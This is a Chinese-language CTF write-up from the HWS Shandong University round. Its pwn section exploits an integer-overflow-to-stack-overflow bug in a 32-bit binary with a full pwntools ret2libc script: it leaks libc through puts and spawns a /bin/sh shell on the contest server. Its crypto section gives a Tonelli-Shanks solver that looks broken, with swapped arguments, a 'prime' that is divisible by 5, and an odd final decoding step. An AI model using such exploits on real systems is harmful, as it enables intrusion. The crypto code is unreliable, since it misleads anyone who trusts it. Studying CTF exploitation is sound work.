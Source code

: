 ```yaml
---
title: HWS 山大专场 Writeup
date: 2023-11-19T10:13:22+08:00
tags: [CTF]
---
```


## Pwn

### inverse

分析二进制文件，发现是 32 位程序，只开启了 NX 保护，可能可以使用栈溢出。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[20]; // [esp+0h] [ebp-28h] BYREF
  int v5; // [esp+14h] [ebp-14h]
  int v6; // [esp+18h] [ebp-10h]
  int v7; // [esp+1Ch] [ebp-Ch]
  int *v8; // [esp+20h] [ebp-8h]

  v8 = &argc;
  init();
  strcpy(v4, "welcome the world!");
  v5 = 0;
  v6 = 0;
  v7 = 0;
  puts(v4);
  printf("input world tag: ");
  __isoc99_scanf("%7s", &tag);
  work();
  return 0;
}

int work()
{
  char buf[48]; // [esp+Ch] [ebp-3Ch] BYREF
  size_t nbytes; // [esp+3Ch] [ebp-Ch]

  nbytes = read_int();
  if ( (int)nbytes > 48 )
    return puts("To large!!!");
  printf("leave me a msg:");
  return read(0, buf, nbytes);
}
```

可以发现，虽然程序限制了 `nbytes` 不能超过 48，但是读取时用的是 `read_int()` 读取 int 类型。可以使用负数将其溢出到一个非常大的整数从而控制 ret 地址。

```python
from pwn import *
context(arch='i386', os='linux')

elf = ELF('./pwn')
libc = ELF('./libc-2.27.so')

# io = gdb.debug('./pwn', 'b *0x8049439')
# io = process('./pwn')
io = remote('124.71.135.126', 30023)

io.recvuntil('tag: ')
io.sendline('0')
io.sendline('-100')
io.recvuntil('msg:')

payload1 = flat([
    'a'*(0x3c+4),
    elf.plt.puts,
    elf.sym.main, elf.got.puts,
])
io.sendline(payload1)

libc.address = u32(io.recvline()[:4]) - libc.sym.puts
io.recvuntil('tag: ')
io.sendline('0')
io.sendline('-100')
io.recvuntil('msg:')

payload2 = flat([
    'a'*(0x3c+4),
    libc.sym.system,
    0, next(libc.search(b'/bin/sh')),
])
io.sendline(payload2)

io.interactive()
```

顺便复习一下 32 位程序函数传参：

| Stack        |              |
| ------------ | ------------ |
| 'a'*0x3c     | buf[48]      |
| aaaa         | ebp          |
| elf.plt.puts | 要调用的函数 |
| elf.sym.main | 函数返回地址 |
| elf.got.puts | 参数1        |

## Crypto

### ezrsa

题目只给了一个质数和 `pow()` 加密后的密文。直接上 Tonelli Shanks 暴力求解。

```python
from Crypto.Util.number import *
# from secret import flag

p = 4124820799737107236308837008524397355107786950414769996181324333556950154206980059406402767327725312238673053581148641438494212320157665395208337575556385

c = 13107939563507459774616204141253747489232063336204173944123263284507604328885680072478669016969428366667381358004059204207134817952620014738665450753147857
# c = pow(flag, 2, p)

def Legendre(n, p):
    return pow(n, (p - 1) // 2, p)


def Tonelli_Shanks(n, p):
    assert Legendre(n, p) == 1
    if p % 4 == 3:
        return pow(n, (p + 1) // 4, p)
    q = p - 1
    s = 0
    while q % 2 == 0:
        q = q // 2
        s += 1
    for z in range(2, p):
        if Legendre(z, p) == p - 1:
            c = pow(z, q, p)
            break
    r = pow(n, (q + 1) // 2, p)
    t = pow(n, q, p)
    m = s
    if t % p == 1:
        return r
    else:
        i = 0
        while t % p != 1:
            temp = pow(t, 2 ** (i + 1), p)
            i += 1
            if temp % p == 1:
                b = pow(c, 2 ** (m - i - 1), p)
                r = r * b % p
                c = b * b % p
                t = t * c % p
                m = i
                i = 0
        return r


flag = Tonelli_Shanks(p, c)
print(long_to_bytes(c-flag))
```

